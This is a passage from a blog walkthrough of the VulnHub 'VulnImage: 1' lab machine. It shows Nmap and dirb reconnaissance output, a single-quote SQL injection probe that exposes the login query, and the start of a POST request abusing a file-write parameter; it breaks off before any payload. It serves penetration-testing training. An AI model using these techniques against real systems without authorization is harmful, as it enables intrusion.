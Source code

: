 ```yaml
---
layout: post
title: "VulnImage: 1"
date: 2015-05-10 15:18:05 +0200
comments: true
categories: [vulnhub, vulnimage]
---
```

Image: [VulnImage: 1](https://www.vulnhub.com/entry/vulnimage-1,39/)

Nmap output:
{% codeblock %}
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 5.1p1 Debian 5 (protocol 2.0)
25/tcp   open  smtp        Exim smtpd 4.50
80/tcp   open  http        Apache httpd 2.2.9 ((Debian) PHP/5.2.6-1+lenny9 with Suhosin-Patch)
139/tcp  open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
3306/tcp open  mysql       MySQL 5.0.51a-24+lenny4
7777/tcp open  cbt?
{% endcodeblock %}

With dirb we found a few interesting directories (repo, admin, profiles),
directory listing is enabled:
{% codeblock %}
---- Scanning URL: http://192.168.80.143/ ----
+ http://192.168.80.143/index (CODE:200|SIZE:71)    
+ http://192.168.80.143/view (CODE:200|SIZE:166)    
==> DIRECTORY: http://192.168.80.143/admin/    
==> DIRECTORY: http://192.168.80.143/profiles/    
==> DIRECTORY: http://192.168.80.143/repo/    
+ http://192.168.80.143/myblog (CODE:200|SIZE:736)    
+ http://192.168.80.143/server-status (CODE:403|SIZE:332)    
{% endcodeblock %}
    
Submitting the quote gives an error SQL message:
{% codeblock %}
http://192.168.80.143/admin/profile.php
Username: '
Password a

... 
SELECT * FROM blog_users WHERE poster = ''' AND password = 'a' 
{% endcodeblock %}

After a few minutes of playing with requests we realize that we can create
files in format 'username-fname' and with the content of 'sig' parameter.
{% codeblock %}
POST /admin/profile.php HTTP/1.1
Host: 192.168.80.143
User-Agent: Mozilla/5.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.80.143/admin/profile.php
Connection: keep-alive
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 104
